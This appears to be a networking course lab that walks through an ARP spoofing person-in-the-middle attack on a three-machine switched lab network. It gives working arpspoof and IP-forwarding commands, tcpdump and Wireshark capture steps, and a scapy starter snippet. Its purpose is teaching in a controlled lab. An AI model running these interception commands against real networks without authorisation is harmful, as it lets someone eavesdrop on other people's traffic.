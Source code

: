 # Lab 5: Arp Spoofing/Poisoning

In this lab we will create a small switched network and attempt to perform some network sniffing/eavesdropping. 

___

## Lab Contents

1. Our Network Set-up
2. Attempting to intercept traffic
3. Eavesdropping on other peoples traffic
4. Enabling Port Forwarding
5. Arp Spoofing Summary

___

### Our Network Set-up

For this lab you will need 3 machines connected to a single switch. Two of the machines will communicate with each other while the attacker on a third machine attempts to listen-in on their communications.

The fist two machines (A & B) may be any VM or physical machine you wish, lets use the following IPs to keep it easier.

A. 192.168.1.10
B. 192.168.1.20
C. 192.168.1.100

Cable up our network and ensure we can ping between all machines. Don't move on until this is working correctly between all devices.

### Attempting to intercept traffic

OK so once we have our network set up we will attempt to capture traffic between A-B from our attackers machine, C

We will also use the lab as an excuse to look at some new tools also. We will start by attempting to use TCPDUMP to record the traffic and we can then view it in more detail using Wireshark.

To install both tools on ubuntu we can use the following commands.

```bash
sudo apt install tcpdump -y
```

```bash
sudo add-apt-repository ppa:wireshark-dev/stable
sudo apt-get update
sudo apt-get install wireshark
```

Once installed we should be good to begin intercepting traffic. So lets start pinging between A and our attacker C, just to check we are capturing traffic. On our attacking machine we can begin capturing traffic using the following command.

```bash
sudo tcpdump -i interface_name -w capture1.pcap
```

Once we have captured some traffic we can close the recording and open our captured traffic with wireshark and we should see our icmp ping traffic between A and C.

```bash
wireshark capture1.pcap
```

### Eavesdropping on other peoples traffic

In the previous example we were able to record and capture traffic because we were part of the communication and the traffic was sent to or from ourselves. If we wanted to record traffic between other users that didn't involve us then we get a problem. On a fully switched network the switch only routes traffic where it needs to go so since we are not part of the conversation the switch doesn't send any traffic our way so there is no way for us see or capture the traffic.

Try it. Start capturing traffic again but this time only send traffic between A - B, if your network is set up correctly then we shouldn't see any traffic from the pings recorded in our capture.

To get a round this problem we will attempt to use arp spoofing and trick the other users into sending their traffic to us. There are plenty of tools we can use for this but for this lab we will attempt to use the arpspoof, part of the dsniff tools.

```bash
sudo apt install -y dsniff
```

The following command will tell the A “I am 192.168.1.20” or B, and the next command tells 192.168.0.20 or B “That I am A”

```bash
sudo arpspoof 192.168.1.10 -t 192.168.1.20
sudo arpspoof 192.168.1.20 -t 192.168.1.10
```

You'll need to run each spoof command in a separate window as it stays active sending fake arp replies to each of our targets.

Once complete attempt to capture the traffic as above, between A and B, ensure you are pinging between A and B and vice-versa.

#### Enabling Port Forwarding

Hopefully our arp spoofing worked and you can now see traffic that is being sent between other users on our network and we can run a person in the middle eavesdropping attack on their traffic.The eagle eyed among you may have spotted a problem. When we send our pings now we aren't getting any responses anymore. The reason for this is that we have directed all traffic to ourselves but we haven't told our own machine to forward on this captured traffic as normal so that it gets to its intended destination. so to complete our attack we should enable port forwarding for all traffic we have diverted to ourselves.

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

Now if we rerun the earlier experiment we should be able to see traffic and the pings response rate should also be normal as traffic is being rerouted correctly.

#### Arp Spoofing Summary

In future assuming you have the tools installed now,  we just need to run the following commands to carry out our arp spoofing attack.

```bash
sudo arpspoof IP_A -t IP_B
sudo arpspoof IP_B -t IP_A
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward  
```

#### Arp Spoofing Challenge Exercise

Ok so we've used the arpspoof tool to carry out a simple person in the middle eavesdropping attack. But can you create your own tool to do the same?

Essentially we just need to repeatedly send arp replies to our target with fake mac addresses, ie. our mac in place of the other machine.

We can use scapy with our python code to help do most of the work.. check out scapy to see how to get it todo what we need.Try the small snippet of code given.

```python
from scapy.all import *
target = "192.168.1.10"
print(sr1(IP(dst=target)/ICMP()),timeout=2)
```
